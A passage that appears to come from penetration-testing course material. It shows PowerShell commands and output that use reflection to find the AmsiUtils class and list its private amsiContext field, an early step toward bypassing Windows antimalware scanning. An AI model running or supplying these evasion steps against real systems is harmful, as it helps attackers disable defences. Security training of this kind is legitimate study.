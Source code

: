 ```
PS C:\Users\Offsec> $a=[Ref].Assembly.GetTypes()

PS C:\Users\Offsec> Foreach($b in $a) {if ($b.Name -like "*iUtils") {$b}}

IsPublic IsSerial Name                                     BaseType
-------- -------- ----                                     --------
False    False    AmsiUtils                                System.Object
```

> Listing 32 - Getting all types and filtering them

Armed with a handle to the _AmsiUtils_ class, we can now invoke the _GetFields_[6](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5178-6) method to enumerate all objects and variables contained in the class. Since _GetFields_ accepts filtering modifiers, we'll apply the _NonPublic_ and _Static_ filters to help narrow the results:

```
PS C:\Users\Offsec> Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}}

PS C:\Users\Offsec> $c.GetFields('NonPublic,Static')


Name                   : amsiContext
MetadataToken          : 67114374
FieldHandle            : System.RuntimeFieldHandle
Attributes             : Private, Static
FieldType              : System.IntPtr
MemberType             : Field
ReflectedType          : System.Management.Automation.AmsiUtils
DeclaringType          : System.Management.Automation.AmsiUtils
Module                 : System.Management.Automation.dll
IsPublic               : False
IsPrivate              : True
IsFamily               : False
IsAssembly             : False
IsFamilyAndAssembly    : False
IsFamilyOrAssembly     : False
IsStatic               : True
IsInitOnly             : False
IsLiteral              : False
IsNotSerialized        : False
IsSpecialName          : False
IsPinvokeImpl          : False
IsSecurityCritical     : True
IsSecuritySafeCritical : False
IsSecurityTransparent  : False
CustomAttributes       : {}
...
```

> Listing 33 - Enumerating stored objects in AmsiUtils class
